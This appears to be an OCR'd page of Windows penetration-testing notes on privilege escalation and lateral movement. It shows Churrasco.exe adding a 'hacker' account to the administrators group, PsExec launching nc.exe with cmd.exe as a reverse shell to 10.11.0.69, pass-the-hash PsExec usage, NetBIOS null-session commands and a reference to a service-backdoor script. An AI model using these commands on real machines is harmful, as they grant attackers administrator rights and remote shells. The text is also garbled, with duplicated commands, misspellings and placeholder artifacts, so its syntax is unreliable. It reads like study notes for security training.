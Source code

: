 The account already exists.

c:\Inetpub>Churrasco.exe "net localgroup administrators hacker /add"

Churrasco.exe "net localgroup administrators hacker /add

The command completed successfully.

c:\Inetpub>Churrasco.exe "net localgroup administrators /add hacker"

Churrasco.exe "net localgroup administrators hacker /add"



#### PsExec.exe

PsExec.exe /accepteula

Run commands on the local system

PsExec.exe \\\hostname -i -d -c -u *username* -p *password* file to run and accepteula

PsExec.exe \\hostname -i -d -c -u user -p password c:\Users\Public\nc.exe -nv 10.11.0.69 444 -e cmd.exe /accepteula

Run commands from a remote system

psexec /accepteula \\*ip* -u Domain\user -p *LM*:*NTLM* cmd.exe /c dir c:\Progra~1

Run remote command as system

psexec /accepteula \\*ip* -s cmd.exe

#### ICALCS

#### Week Services attacks

#### backdoor-legit-win-service.py

viper-shell/application/modules/post/

Examples are located here

viper-shell/application/modules/post/Scsi/


### Net Bious Null Sessions

C:\>net use \\192.168.3.2\IPCdollar_sign”” /u: “”’
this syntac connects to hidden inter process communication (IPCdollar_sign)
 
cmd.exe

C:\ Net Use \\*ipaddress*\ipcdollar_sign “” /u:””

#### Set path

set PATH=%PATH%;C:\xampp\php

### Kernel exploits

